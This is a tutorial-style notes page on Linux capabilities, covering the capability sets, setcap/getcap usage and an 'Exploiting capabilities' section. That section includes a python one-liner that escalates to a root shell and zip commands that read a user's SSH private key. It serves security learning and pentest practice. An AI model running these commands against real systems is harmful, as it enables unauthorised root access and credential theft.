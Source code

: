 # Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

**Basic processes :** Have no capabilities (file access is controlled by traditional file privileges).

**(Binary) files :** Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set             | Description                                                                                 |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set   | the set that will be used when doing permission check.                                      |
| Permitted set   | can be moved to effective set by calling `capset()`                                         |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set    | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set     | passed to non-suid files without defined capabilities                                       |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
  * drop any capability from any set
  * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

**Non-exhaustive capability list :**

| Capability              | Description                                        |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL`     | Toggle kernel auditing                             |
| `CAP_AUDIT_WRITE `      | Write to kernel audit log                          |
| `CAP_CHOWN`             | Change file owners                                 |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID                                     |
| `CAP_NET_RAW`           | Open raw and packet sockets                        |
| `CAP_NET_BIND_SERVICE`  | Bind a socket to Internet domain privileged ports  |

## Practice

**Setting a file's capabilities :**

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

**Exploiting capabilities :**

*   Empty capabilities

    If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

{% hint style="info" %}
To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file`&#x20;
{% endhint %}

**Other classic examples :**

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

**End notes :**

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

{% embed url="https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work" %}

{% embed url="https://blog.ploetzli.ch/2014/understanding-linux-capabilities/" %}

{% embed url="https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/" %}
